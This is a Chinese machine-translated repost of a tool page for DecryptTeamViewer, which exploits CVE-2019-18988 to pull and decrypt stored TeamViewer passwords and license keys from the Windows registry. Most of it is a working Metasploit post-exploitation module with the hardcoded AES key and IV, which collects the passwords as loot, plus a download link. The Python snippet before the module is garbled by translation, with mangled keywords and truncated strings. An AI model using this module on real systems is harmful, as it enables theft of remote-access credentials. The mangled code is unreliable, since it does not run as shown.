

# DecryptTeamViewer:从 Windows 注册表枚举和解密 TeamViewer 凭据

> 原文：<https://kalilinuxtutorials.com/decryptteamviewer/>

[](https://1.bp.blogspot.com/-ZgWW4O5432U/Xk1ecnQJNeI/AAAAAAAAFBg/6dzEcq5u2DYncmv00krxy_35NBPKSpFQwCLcBGAsYHQ/s1600/DecryptTeamViewer%25281%2529.png)

**DecryptTeamViewer** 使用 CVE-2019-18988 来枚举和解密来自 Windows 注册表的 TeamViewer 凭证。通过[点击此处](https://whynotsecurity.com/blog/teamviewer/)发布详述漏洞的博客。

请参见下面的 Python 实现，以及下面的 post metasploit 模块；

从 Crypto 导入 sys、hexdump、binascii
。Cipher 导入 AES

类 AES cipher:
def**init**(self，key):
self . key = key

def decrypt(self，iv，data):
self . cipher = AES . new(self . key，AES。MODE_CBC，iv)
return self . cipher . decrypt(data)

key = binas CII . unhexlify(" 06020000005253413100040000 ")
iv = binas CII . unhexlify(" 0100010067244 f 436 e 6762 f 25 ea 8d 704 ")
hex _ str _ cipher = " d 699 解密(iv，密文)

打印(hex dump . hex dump(raw _ un))

密码= raw_un.decode('utf-16')
打印(密码)

**也可阅读-[CTF Tool:交互式 CTF 探索工具](https://kalilinuxtutorials.com/ctftool/)**

```
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
# @blurbdust based this code off of https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/gather/credentials/gpp.rb
# and https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/gather/enum_ms_product_keys.rb
##

class MetasploitModule < Msf::Post
  include Msf::Post::Windows::Registry

  def initialize(info={})
    super(update_info(info,
        'Name'          => 'Windows Gather TeamViewer Passwords',
        'Description'   => %q{ This module will find and decrypt stored TeamViewer keys },
        'License'       => MSF_LICENSE,
        'Author'        => [ 'Nic Losby <blurbdust[at]gmail.com>'],
        'Platform'      => [ 'win' ],
        'SessionTypes'  => [ 'meterpreter' ]
      ))
  end

  def app_list
    results = ""
    keys = [
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version7", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version8", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version9", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version10", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version11", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version12", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version13", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version14", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version15", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer", "Version" ],
      [ "HKLM\\SOFTWARE\\TeamViewer\\Temp", "SecurityPasswordExported" ],
      [ "HKLM\\SOFTWARE\\TeamViewer", "Version" ],
    ]

    keys.each do |keyx86|

      #parent key
      p = keyx86[0,1].join

      #child key
      c = keyx86[1,1].join

      key      = nil
      keychunk = registry_getvaldata(p, c)
      key      = keychunk.unpack("C*") if not keychunk.nil?

      optpass  = registry_getvaldata(p, "OptionsPasswordAES")
      secpass  = registry_getvaldata(p, "SecurityPasswordAES")
      secpasse = registry_getvaldata(p, "SecurityPasswordExported")
      servpass = registry_getvaldata(p, "ServerPasswordAES")
      proxpass = registry_getvaldata(p, "ProxyPasswordAES")
      license  = registry_getvaldata(p, "LicenseKeyAES")

      if not optpass.nil? 
        decvalue = decrypt(optpass)
        if not decvalue.nil?
          print_good("Found Options Password: #{decvalue}")
          results << "Options:#{decvalue}\n"
        end
      end
      if not secpass.nil? 
        decvalue = decrypt(secpass)
        if not decvalue.nil?
          print_good("Found Security Password: #{decvalue}")
          results << "Security:#{decvalue}\n"
        end
      end
      if not secpasse.nil? 
        decvalue = decrypt(secpasse)
        if not decvalue.nil?
          print_good("Found Security Password Exported: #{decvalue}")
          results << "SecurityE:#{decvalue}\n"
        end
      end
      if not servpass.nil? 
        decvalue = decrypt(servpass)
        if not decvalue.nil?
          print_good("Found Server Password: #{decvalue}")
          results << "Server:#{decvalue}\n"
        end
      end
      if not proxpass.nil? 
        decvalue = decrypt(proxpass)
        if not decvalue.nil?
          print_good("Found Proxy Password: #{decvalue}")
          results << "Proxy:#{decvalue}\n"
        end
      end
      if not license.nil? 
        decvalue = decrypt(license)
        if not decvalue.nil?
          print_good("Found License Key: #{decvalue}")
          results << "License:#{decvalue}\n"
        end
      end
    end

    #Only save data to disk when there's something in the table
    if not results.empty?
      path = store_loot("host.teamviewer_passwords", "text/plain", session, results, "teamviewer_passwords.txt", "TeamViewer Passwords")
      print_good("Passwords stored in: #{path.to_s}")
    end
  end

  def decrypt(encrypted_data)
    password = ""
    return password unless encrypted_data

    password = ""
    original_data = encrypted_data.dup

    decoded = encrypted_data
    #print_status(decoded)

    key = "\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
    iv  = "\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
    aes = OpenSSL::Cipher.new("AES-128-CBC")
    begin
      aes.decrypt
      aes.key = key
      aes.iv = iv
      plaintext = aes.update(decoded)
      password = Rex::Text.to_ascii(plaintext, 'utf-16le')
      if plaintext.empty?
        return nil
      end
    rescue OpenSSL::Cipher::CipherError => e
      puts "Unable to decode: \"#{encrypted_data}\" Exception: #{e}"
    end

    password
  end

  def run
    print_status("Finding TeamViewer Passwords on #{sysinfo['Computer']}")
    app_list
  end
end
```

[**Download**](https://github.com/V1V1/DecryptTeamViewer)